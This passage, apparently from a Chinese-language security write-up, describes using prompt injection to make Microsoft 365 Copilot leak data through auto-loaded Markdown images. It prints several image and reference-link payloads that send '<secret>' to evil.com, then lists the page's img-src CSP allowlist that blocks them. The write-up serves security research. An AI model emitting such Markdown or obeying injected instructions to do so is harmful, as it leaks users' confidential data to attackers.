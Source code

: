 为什么只满足于用户点击一个链接呢？是否可以做得更加巧妙？  
  
当尝试让LLM输出一张图片时，浏览器将自动尝试获取图片，因此我们可以不需要用户点击任何东西，而是让浏览器“帮我们点击链接”。  
  
Markdown的图片格式与Markdown链接非常相似，只是前面多了一个感叹号：  
  

```
![Image alt text](https://www.evil.com/image.png?param=<secret>)
```

  
  
这样的Markdown图片格式也同样会受到链接编辑限制，但Markdown也支持引用图片：  

```
![Image alt text][ref]

[ref]: https://www.evil.com?param=<secret>

```

  
还有一些其它变体：  

```
![Image alt text][ref]

[ref]: https://www.evil.com?param=<secret>
![Image alt text][]

[Image alt text]: https://www.evil.com?param=<secret>

```

  
这是不是就能够自动泄露敏感信息了？  
  
其实不然，微软在 M365 Copilot 网页上还设置了 img-src CSP：  

```
*.cdn.office.net
*.df.onecdn.static.microsoft
*.public.onecdn.static.microsoft
*.bing.com
bing.com
res-dev.cdn.officeppe.net
*.sharepoint-df.com
*.sharepoint.com
media.licdn.com
spoprod-a.akamaihd.net
prod.msocdn.com
content.powerapps.com
*.teams.microsoft.com
*.s-microsoft.com
*.sharepointonline.com
connectoricons-df.azureedge.net
connectoricons-prod.azureedge.net
cpgeneralstore.blob.core.chinacloudapi.cn
depservstorageussec.blob.core.microsoft.scloud
depservstorageusnat.blob.core.eaglex.ic.gov
tip1apiicons.cdn.powerappscdn.net
tip2apiicons.cdn.powerappscdn.net
prodapiicons.cdn.powerappscdn.net
az787822.vo.msecnd.net
cms-aiplugin.azureedge.net
powerautomate.microsoft.com
*.osi.office.net
*.osi.officeppe.net
designer.microsoft.com
bing.com
*.sharepointonline.com
```

[Link display text]: https://www.evil.com?param=<secret>
[Link display text]: https://www.evil.com?param=<secret>
